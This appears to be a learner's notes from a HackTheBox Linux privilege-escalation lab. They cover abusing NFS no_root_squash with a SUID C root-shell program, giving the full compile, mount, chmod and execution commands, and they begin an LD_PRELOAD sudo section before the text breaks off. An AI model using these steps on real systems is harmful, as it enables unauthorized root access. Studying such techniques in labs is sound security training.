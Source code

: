 first set `no_root_squash` option on `/etc/exports` file in victim machine

this allows any file we upload to the mount directory be owned by the root directory.

which means we can create a malicious file, set suid permission and upload to the mount.
when running from the server, this file runs as user root

```
htb@NIX02:~$ cat shell.c#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

simple malicious c code to give us root shell.

`htb@NIX02:/tmp**$** gcc shell.c -o shell`

```
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

```
htb@NIX02:/tmp$  ls -latotal 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# iduid=0(root) gid=0(root) groups=0(root),4(adm),
```

# **Shared Libraries**

For this we need an account with `sudo` access to run some command

```bash
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl

```
